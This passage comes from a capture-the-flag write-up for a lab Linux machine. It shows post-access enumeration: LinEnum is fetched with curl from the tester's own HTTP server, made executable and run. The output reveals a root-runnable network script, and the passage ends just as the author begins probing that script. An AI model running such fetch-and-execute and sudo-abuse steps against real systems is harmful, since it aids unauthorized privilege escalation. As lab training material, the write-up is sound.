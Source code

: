 So this is a linux box, time to get linenum, the script I prefer to poke around after inital access, over to this machine. There was no wget or git on the target, so curl and adding it to a file worked just as well. We also want to give it permissions to run and then execute it:

```console
[guly@networked ~]$ curl http://10.10.14.75:8000/LinEnum.sh > LinEnum.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 45656  100 45656    0     0   278k      0 --:--:-- --:--:-- --:--:--  280k
[guly@networked ~]$ ls
check_attack.php  crontab.guly	LinEnum.sh  user.txt
[guly@networked ~]$ chmod 755 LinEnum.sh
[guly@networked ~]$ ./LinEnum.sh
```

The LinEnum script output is quite verbose, so I will shorten down to what is relevent. Typically this takes me a good chunk of time to go through, but with this box there was a script that stuck out pretty clearly:

```console
User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh


[+] Possible sudo pwnage!
/usr/local/sbin/changename.sh
```

Lets take a look at what that script is:

```console
[guly@networked ~]$ cat /usr/local/sbin/changename.sh

#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
	echo "interface $var:"
	read x
	while [[ ! $x =~ $regexp ]]; do
		echo "wrong input, try again"
		echo "interface $var:"
		read x
	done
	echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
```
in playing around with the script, it prompts us for variables:
